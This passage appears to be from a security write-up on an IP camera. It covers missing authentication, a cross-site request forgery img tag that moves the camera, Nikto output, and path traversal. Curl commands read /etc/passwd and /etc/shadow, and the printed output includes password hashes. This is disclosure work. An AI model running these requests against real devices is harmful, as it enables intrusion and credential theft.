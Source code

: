 ### Missing authentication

This camera has little authentication. Pairing the camera to the phone during setup doesn't actually create a trusted connection. Anyone that can perform a request to the camera can control its motion, play sounds, or view video.

### Cross-site request forgery

Any user on the same network can perform such a request, but also anyone on the internet with a website. If you have a camera at home and browse to a website, that website can cause a request to the camera. This is known as cross-site request forgery: the site on the internet "forges" a request to the camera. For example, putting the following code on a website makes the camera move to the left:

    <img src="http://192.168.2.16/?action=command&command=move_left">

## Nikto detects path traversal

Running Nikto gives the following interesting result:

    + /..\..\..\..\..\..\temp\temp.class: Cisco ACS 2.6.x and 3.0.1 (build 40) allows authenticated remote users to retrieve any file from the system. Upgrade to the latest version.
    + /../../../../../../../../../../etc/passwd: It is possible to read files on the server by adding ../ in front of file name.

This doesn't seem like a Cisco system, but it looks like the server may be vulnerable to path traversal in the web server. For example, the following command line retrieves the `/etc/passwd` file:

    $ curl --path-as-is http://192.168.2.16/../../../etc/passwd
    root:x:0:0:root:/:/bin/sh
    nobody:x:99:99:Nobody:/:/sbin/nologin
    ftp:x:501:0:ftp:/var:/bin/sh
    usb:x:504:100::/usb:
    
### Path traversal

Path traversal originates from concatenating user input to obtain a directory. In our case, the webroot is `/mnt/skyeye/mlswwwn`. This directory contains the files that are available on the webserver, such as test.html. 

So if you request `/test.html`, the server appends `/test.html` to `/mnt/skyeye/mlswwwn` and opens the file `/mnt/skyeye/mlswwn/test.html`. 

Now, if you request `/../../../etc/passwd`, the server serves the file `/mnt/skyeye/mlswwwn/../../../etc/passwd`. Since `..` means "go a directory up", this resolves to `/etc/passwd`, which contains a list of users on the system.

## Retrieving password hashes

We can also try to request the related `/etc/shadow` file:

    $ curl --path-as-is "http://192.168.2.16/../../../../../etc/shadow"
    root:r.BF8RVw56BOA:1:0:99999:7:::
    ftp:!:0::::::
    usb:w.rW11jv2dmM2:13941::::::
